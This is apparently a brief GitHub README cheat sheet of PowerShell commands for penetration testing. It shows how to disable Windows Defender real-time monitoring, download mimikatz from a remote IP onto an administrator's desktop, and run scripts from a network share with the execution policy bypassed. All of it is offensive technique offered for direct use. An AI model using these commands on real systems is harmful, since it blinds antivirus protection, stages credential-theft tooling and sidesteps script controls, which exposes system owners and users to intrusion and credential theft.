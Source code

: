 # praia_essential_commands
Command for pentest

# Disable Windows Defender on Windows 10 using PowerShell
#### Fire up a PowerShell window as administrator and run the following command:

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true

#### Just set the DisableRealTimeMonitoring back to false to re-enable the real-time monitoring within Defender.

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $false


# File transfer

PS C:\> powershell.exe wget http://10.10.12.39/mimikatz.exe -outfile C:\users\administrator\desktop\mimikatz.exe

# Running a Powershell function from command line.

#### First Step (Load PS1 file):

PS C:\> powershell.exe -executionpolicy bypass -file "\\#SERVER\Get-RDPCertificate.ps1"

#### Second Step (Execute Function):

PS C:\> powershell.exe -executionpolicy bypass -command {"Get-RDPCertificate -Computername $env:COMPUTERNAME | Out-File -filepath (\\#SERVER\$env:computername-$(get-date -f MM-dd-yy).txt)"}




 
